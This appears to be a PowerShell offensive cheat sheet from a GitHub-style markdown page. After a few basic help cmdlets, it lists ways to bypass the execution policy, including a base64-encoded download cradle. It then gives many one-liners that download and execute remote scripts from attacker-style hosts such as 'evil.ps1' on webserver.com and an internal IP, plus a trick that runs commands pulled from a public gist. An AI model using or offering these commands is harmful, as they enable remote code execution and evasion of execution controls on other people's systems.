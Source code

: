 ## Powershell basic cmdlets and help system
```
Get-Command -CommandType cmdlet # Lists all available cmdlets
Get-Help <cmdlet> # Display usage about a cmdlet
Get-Help <cmdlet> -Examples # Display example usage about a cmdlet
```
### Note: 
It is concluded that, use a single quote only to print the plain text but to 
print variables and evaluating other expressions in the string, use the double 
quote in PowerShell.

## Powershell bypass Execution policy

The execution policy is safety feature that controls the conditions under which PowerShell 
loads configuration files and runs scripts. Here are sereral ways of bypassing.

```
powershell -ExecutionPolicy Bypass
powershell -ep bypass
powershell -c <command>
------------------------------------------------------------------------------------------
$string = 'IEX(New-Object Net.WebClient).DownloadString("http://192.168.100.71/test.bat")'
$encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string)) 
powershell -EncodedCommand $encodedCommand
------------------------------------------------------------------------------------------
$env:PSExecutionPolicyPreference="Bypass"
```

## Importing Modules

```
Import-Module <module-path>
```

## LIsting all commands in a module
```
Get-Command -Module <module-name>
```
## Download and execute files using powershell

```
IEX (New-Object Net.Webclient).downloadstring("http://webserver.com/evil.ps1")

IEX (iwr 'http://webserver.com/evil.ps1')

$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r # Uses internet explorer and prompts the user to download or save the file

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://webserver.com/evil.ps1',$false);$h.send();iex $h.responseText

$wr=[System.NET.WebRequest]::Create("http://192.168.100.71:8000/hehe.ps1");$r=$wr.GetResponse();IEX([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

Import-Module bitstransfer;Start-BitsTransfer 'http://webserver.com/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r

```
## Download and Execute using gist

First create a public gist with anything.txt as follows, enter the desired command inside <execute></execute>.

```
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
</command>

```
Then, 
```
$a = New-Object System.Xml.XmlDocument;$a.Load("https://gist.githubusercontent.com/alexdhital/d2e1627948dd1d997e614f1cfd95a75d/raw/398b4adde13b271757364825a644846865a1089f/hehe.txt");$a.command.a.execute | iex
```
